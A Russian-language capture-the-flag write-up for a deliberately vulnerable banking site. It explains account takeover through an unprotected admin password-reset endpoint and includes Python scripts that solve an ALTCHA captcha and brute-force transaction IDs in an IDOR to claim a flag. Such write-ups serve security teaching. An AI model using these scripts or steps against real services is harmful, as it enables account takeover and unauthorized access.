

```text
Description:
Well, how can our beloved CTF survive without our now‑legendary can?

Telegram bot for flag - @kubstubank1_bot
Your task at the beginning is to capture a user with a large amount of money, mgalankov@4274.
```
# Уязвимость
```text
IDOR + Broken Access Control в эндпоинте /api/verify_flag_token — API принимает transaction_id и не проверяет, что транзакция принадлежит текущему пользователю. Также не проверяет баланс и не проверяет, что транзакция действительно связана с покупкой.
```
# Разведка и решение
Регистрируем аккаунт и изучаем профиль.
Просмотрим какие есть ручки api, перейдя по /api/docs.

Из интересный ручек можем заметить.
```text
POST /api/admin/reset_password   ← уязвимый эндпоинт (сброс пароля по user_id)
POST /api/get_signature          ← выдача подписи для перевода (по PIN)
POST /api/2fa/send               ← отправка OTP
POST /api/2fa/verify             ← верификация OTP → signature
POST /api/verify_flag_token      ← покупка флага по offer-токену
```
В задании сказано, что мы должны получить доступ к аккаунту mgalankov@4274. Поэтому в теории мы можем сбросить пароль для этого аккаунта и зайти под новым паролем.
Для начало проанализируем jwt токен:
```text
{
  "sub": "341",              // user_id
  "username": "ss@5651",     // логин
  "csrf": "ff46e2db-...",    // CSRF
  "exp": ...
}
```
Скорее всего id нужного пользователя будет от 1 до 10 (4). 
Самое проблемное для сброса пароля это altcha. Его можно получить с помощью этого скрипта:
```python
import base64
import hashlib
import json
import time

import requests

BASE_URL = "https://bank.kubstu-ctf.ru"

def solve_altcha(data: dict) -> str:
    """
    data — JSON из /api/captcha/challenge:
      {"algorithm":"SHA-256","challenge":"...","salt":"...","signature":"...","maxnumber":100000}
    Возвращает base64-строку с решением (это и есть payload для поля altcha).
    """
    algorithm  = (data.get("algorithm") or "SHA-256").upper()
    challenge  = data["challenge"]
    salt       = data["salt"]
    signature  = data.get("signature", "")
    maxnumber  = int(data.get("maxnumber", 100_000))

    hashers = {
        "SHA-256": hashlib.sha256,
        "SHA-384": hashlib.sha384,
        "SHA-512": hashlib.sha512,
    }
    if algorithm not in hashers:
        raise ValueError(f"Неподдерживаемый алгоритм: {algorithm}")
    h = hashers[algorithm]

    t0 = time.time()
    for n in range(maxnumber + 1):
        if h(f"{salt}{n}".encode()).hexdigest() == challenge:
            took = int((time.time() - t0) * 1000)
            payload = {
                "algorithm": algorithm,
                "challenge": challenge,
                "number":    n,
                "salt":      salt,
                "signature": signature,
                "took":      took,
            }
            raw = json.dumps(payload, separators=(",", ":")).encode()
            return base64.b64encode(raw).decode()

    raise RuntimeError("ALTCHA не решена за maxnumber попыток")

def get_challenge(session: requests.Session | None = None) -> dict:
    s = session or requests.Session()
    r = s.get(f"{BASE_URL}/api/captcha/challenge", timeout=15)
    r.raise_for_status()
    return r.json()

def main() -> None:
    d = get_challenge()
    print("[*] challenge:", json.dumps(d, ensure_ascii=False))

    payload = solve_altcha(d)
    print("[+] ALTCHA payload (вставляй в поле altcha):")
    print(payload)

if __name__ == "__main__":
    main()
```
После этого мы можем подставить значение altcha и сбросить пароль. После того как залогинемся под под пользователем mgalankov@4274, переходим в тг бота @kubstubank1_bot и получаем токен. Дальше мы должны найти свободную транзакцию к которой не привязан токен и получить флаг: 
```python
import requests

BASE  = "https://bank.kubstu-ctf.ru"
STICKY = "2ff446964dd223f1"

# === ПОДСТАВЬ АКТУАЛЬНЫЕ ЗНАЧЕНИЯ ===
JWT   = "<access_token_cookie из cookie>"
CSRF  = "<csrf_access_token из cookie>"
TOKEN = "<token из telegram_bot>"   # свежий из /token в боте
# =====================================

s = requests.Session()
s.cookies.set("bank_sticky",        STICKY, domain="bank.kubstu-ctf.ru")
s.cookies.set("access_token_cookie", JWT,   domain="bank.kubstu-ctf.ru")
s.cookies.set("csrf_access_token",   CSRF,  domain="bank.kubstu-ctf.ru")
s.headers.update({
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/json",
    "X-CSRF-TOKEN": CSRF,
    "Origin": BASE,
    "Referer": f"{BASE}/flag_shop",
})

for tid in range(1, 201):
    r = s.post(f"{BASE}/api/verify_flag_token",
               json={"token": TOKEN, "transaction_id": tid})
    try:
        j = r.json()
    except Exception:
        j = {}

    if "flag_content" in j:
        print(f"\n[***] tid={tid}")
        print(f"[***] ФЛАГ: {j['flag_content']}\n")
        break

    err = j.get("error", "")
    print(f"tid={tid:4} -> {r.status_code}  {err}")
```
В итоге тг бот пришлет нам флаг.
# Flag
```text
KubSTU{0tp_1s_th3_s1gnatur3_c4py_b4nk_0wn3d}
```